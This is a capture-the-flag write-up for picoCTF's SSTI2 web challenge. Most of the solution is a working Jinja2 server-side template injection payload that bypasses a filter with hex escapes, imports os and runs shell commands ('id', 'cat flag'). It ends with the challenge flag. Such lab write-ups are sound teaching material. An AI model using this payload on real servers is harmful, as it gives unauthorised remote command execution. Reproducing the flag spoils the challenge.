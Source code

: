 # SSTI2 — Pico Gym

> **Room / Challenge:** SSTI2 (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** Pico Gym
- **Challenge:** SSTI2 (web)
- **Link**: `https://play.picoctf.org/practice/challenge/488?category=1&page=2`
- **Difficulty:** `Medium`
- **Date:** `22-10-2025`

---

## Goal

We have to get the flag by using Server-side Template Injection payloads.

## My Solution

This is the updated version of the SSTI1, however it is still a really weak system, we can use the popular [SSTI payloads](https://github.com/payloadbox/ssti-payloads) from PayloadBox. We can try use `{{ 7 * 7 }}` to see if the template injection payload works.

![Guide image](./screenshots/1.png)

It returns `49` so the template injection works, now from the [SSTI payloads](https://github.com/payloadbox/ssti-payloads), I tried this payload and I can get the result:

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

![Guide image](./screenshots/2.png)

Edit the `id` to `ls -la` found the `flag` file, final exploit:

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

![Guide image](./screenshots/3.png)

Flag: `picoCTF{sst1_f1lt3r_byp4ss_a9824e27}`
